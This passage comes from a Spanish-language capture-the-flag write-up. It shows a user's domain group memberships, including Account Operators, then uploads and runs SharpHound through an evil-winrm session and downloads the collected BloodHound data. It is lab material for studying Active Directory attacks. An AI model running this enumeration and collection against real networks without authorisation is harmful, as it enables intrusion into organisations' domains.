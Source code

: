 ```batch
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
bbr\Privilege users                        Group            S-1-5-21-1487034055-435569681-4283575489-1107 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```
Me llama mucho la atención que este usuario este en el grupo **Account Operators**.

| **Grupo Account Operators** |
|:-----------:|
| *Es un grupo predefinido que tiene permisos específicos relacionados con la gestión de cuentas de usuario y grupo dentro de un dominio. Este grupo se usa principalmente para delegar tareas administrativas limitadas sin otorgar privilegios de administrador completo.* |

<br>

Quizá nos ayude estar dentro de este grupo más adelante.

Para esta máquina, utilizaremos **BloodHound Community Edition y SharpHound v1.1.1**.

Este blog enseña como instalar **BloodHound Community Edition** y como usarlo:
* <a href="https://m4lwhere.medium.com/the-ultimate-guide-for-bloodhound-community-edition-bhce-80b574595acf" target="_blank">The Ultimate Guide for BloodHound Community Edition (BHCE)</a>

Y de aquí puedes conseguir **SharpHound v1.1.1**:
* <a href="https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.1" target="_blank">Repositorio de SpecterOps: SharpHound v1.1.1</a>

Carguemos **SharpHound** a la sesión de **evil-winrm** del **usuario song** y trabajemos con este usuario de ahora en adelante:
```batch
*Evil-WinRM* PS C:\Users\Music\Desktop> upload SharpHoundV1.exe
Info: Uploading /../TheHackersLabs/Big/content/sharphoundV1.1.1/SharpHoundV1.exe to C:\Users\Music\Desktop\SharpHoundV1.exe
Data: 1402880 bytes of 1402880 bytes copied
Info: Upload successful!
```

Bien, ahora usémoslo y descarguemos el **archivo ZIP** resultante:
```batch
*Evil-WinRM* PS C:\Users\Music\Desktop> .\SharpHoundV1.exe -c All
2025-04-17T21:49:39.2957598-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
...
...
Closing writers
2025-04-17T21:50:28.4673290-07:00|INFORMATION|Status: 96 objects finished (+96 2)/s -- Using 42 MB RAM
2025-04-17T21:50:28.4673290-07:00|INFORMATION|Enumeration finished in 00:00:48.7349869
2025-04-17T21:50:28.5299496-07:00|INFORMATION|Saving cache with stats: 56 ID to type mappings.
 56 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-04-17T21:50:28.5299496-07:00|INFORMATION|SharpHound Enumeration Completed at 9:50 PM on 4/17/2025! Happy Graphing!
.
*Evil-WinRM* PS C:\Users\Music\Desktop> download 20250417215027_BloodHound.zip
Info: Downloading C:\Users\Music\Desktop\20250417215027_BloodHound.zip to 20250417215027_BloodHound.zip                                       
Info: Download successful!
```
